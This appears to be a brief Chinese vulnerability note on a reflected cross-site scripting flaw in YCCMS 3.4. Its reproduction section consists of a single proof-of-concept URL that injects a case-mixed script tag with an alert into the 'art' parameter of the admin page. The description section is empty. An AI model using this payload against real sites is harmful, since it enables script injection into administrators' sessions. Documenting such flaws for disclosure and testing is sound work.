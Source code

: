 # YCCMS 3.4 反射型xss

## 一、漏洞简介

## 二、漏洞影响

YCCMS 3.4

## 三、复现过程

```
https://www.baidu.com/admin/?a=html&art=<sCrIpT>alert(ian)<%2FsCrIpT>&m=arts

```

